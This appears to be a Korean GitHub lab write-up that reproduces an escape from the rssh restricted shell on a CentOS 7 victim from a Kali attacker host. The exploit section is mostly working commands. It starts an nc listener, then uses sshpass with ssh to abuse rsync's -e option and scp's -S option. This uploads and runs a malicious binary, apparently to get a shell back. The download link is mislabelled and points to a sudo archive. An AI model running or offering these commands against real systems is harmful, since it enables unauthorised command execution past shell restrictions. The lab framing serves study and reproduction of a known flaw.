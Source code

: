 # [목차]
**1. [Environment](#Environment)**

**2. [Setting](#Setting)**

**3. [Exploit](#Exploit)**

**4. [etc](#etc)**


***


# **Environment**

| Type     | OS             | IP              | Vulnerable App |
| :---     | :---           | :---            | :---           |
| Victim   | CentOS 7       | 192.168.108.174 | [rssh-2.2.2-1.FC2.i386](https://github.com/2jinu/CVE/raw/main/LPE/%5BLinux%5D%20CVE-2019-14287/file/sudo-1.8.27.tar.gz) |
| Attacker | Kali 2019      | 192.168.108.132 |                |

# **Setting**

필요 라이브러리 설치

```sh
root@srv:~# yum -y install ld-linux.so.2
root@srv:~# rpm -e --nodeps -ivh rssh-2.2.2-1.FC2.i386.rpm
root@srv:~# adduser -d /home/"username" "username"
root@srv:~# passwd "username"
root@srv:~# echo /usr/bin/rssh >> /etc/shells
root@srv:~# usermod -s /usr/bin/rssh "username"
```

rssh 설정파일 수정

```
/etc/rssh.conf에서 allowscp와 allowsftp 주석 해제
```


# **Exploit**

```sh
root@kali:~# apt-get install sshpass
root@kali:~# nc -nvlp 포트번호
root@kali:~# sshpass -p'비밀번호' ssh -oStrictHostKeyChecking=no 사용자 계정@피해 서버 'rsync -e "touch /tmp/exploit --" localhost:/dev/null /tmp'
root@kali:~# sshpass -p'비밀번호' scp -oStrictHostKeyChecking=no 악성코드 명 사용자 계정@피해 서버:/tmp/악성코드 명
root@kali:~# sshpass -p'비밀번호' ssh -oStrictHostKeyChecking=no 사용자 계정@피해 서버 'scp -S /tmp/악성코드 명 localhost:/dev/null /tmp'
```

![](images/2022-05-18-21-34-05.png)



# **etc**

rssh : scp, sftp, cvs, rdist, rsync만 사용할 수 있는 쉘